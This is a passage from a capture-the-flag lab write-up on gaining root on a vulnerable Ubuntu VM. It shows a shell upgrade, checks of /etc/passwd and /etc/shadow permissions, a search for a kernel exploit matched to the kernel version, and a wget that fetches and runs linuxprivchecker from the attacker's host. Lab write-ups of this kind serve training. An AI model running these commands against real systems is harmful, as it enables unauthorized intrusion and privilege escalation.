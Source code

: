 <img src="{{ site.url }}/images/ctf/6days_lab_4.png"/>

## Escalation to root
<b>Gained a better PTY</b>
```
which python
/usr/bin/python
/usr/bin/python -c 'import pty;pty.spawn("/bin/bash");'
www-data@cypm:/var/www$
```

<b>Checked some permission misconfigurations for quick kills</b>
```
www-data@cypm:/var/www$ ls -l /etc/passwd
ls -l /etc/passwd
-rw-r--r-- 1 root root 1142 Jul 11  2016 /etc/passwd
www-data@cypm:/var/www$ ls -l /etc/shadow
ls -l /etc/shadow
-rw-r----- 1 root shadow 1023 Jul 11  2016 /etc/shadow
```

<b>Gathered some kernel version information</b>
```
www-data@cypm:/var/www$ uname -a
uname -a
Linux cypm 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
```

<b>Did a searchsploit against the exact kernel version</b>
```
root@sengen-kali:~/vulnhub/6day# searchsploit 3.13.0
---------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                    |  Path
                                                                                  | (/usr/share/exploitdb/platforms/)
---------------------------------------------------------------------------------- ----------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Privile | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Privile | linux/local/37293.txt
---------------------------------------------------------------------------------- ----------------------------------
```

<b>Pulled down linuxprivchecker to get a report</b>
```
www-data@cypm:/var/www$ ls -l /etc/shadow
ls -l /etc/shadow
-rw-r----- 1 root shadow 1023 Jul 11  2016 /etc/shadow
www-data@cypm:/var/www$ wget http://192.168.56.101/common/lpc.py
wget http://192.168.56.101/common/lpc.py
--2017-07-28 03:11:35--  http://192.168.56.101/common/lpc.py
Connecting to 192.168.56.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 25304 (25K) [text/x-python]
Saving to: `lpc.py'

100%[======================================>] 25,304      --.-K/s   in 0.001s  

2017-07-28 03:11:35 (34.0 MB/s) - `lpc.py' saved [25304/25304]

www-data@cypm:/var/www$ /usr/bin/python ./lpc.py
```
